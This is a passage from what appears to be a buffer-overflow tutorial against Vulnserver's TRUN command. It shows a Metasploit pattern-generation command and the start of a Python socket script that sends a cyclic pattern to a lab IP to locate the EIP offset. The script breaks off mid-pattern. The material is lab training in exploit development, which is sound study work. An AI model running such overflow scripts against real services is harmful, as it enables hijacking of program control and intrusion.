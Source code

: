 ![EIP location after crash](/assets/img/vulnserver_trun_10_eip_after_crash.png)

We will need to figure out the exact offset between the start of our sent buffer and this stack location if we want to take control over the command flow and hijack the program.

The metasploit framework comes with a convenient tool that can be used in order to generate a unique byte pattern:

```bash
$ msf-pattern_create -l 4096

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac...
```

The `-l` parameter should match the number of A's we previously sent.

Plug that sequence into our script:

```python
#!/usr/bin/env python3
# TRUN Step 2 - discover eip offset
import socket

size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"

# msf-pattern_create -l 4096
pattern = b""
pattern += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
pattern += b"d3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
```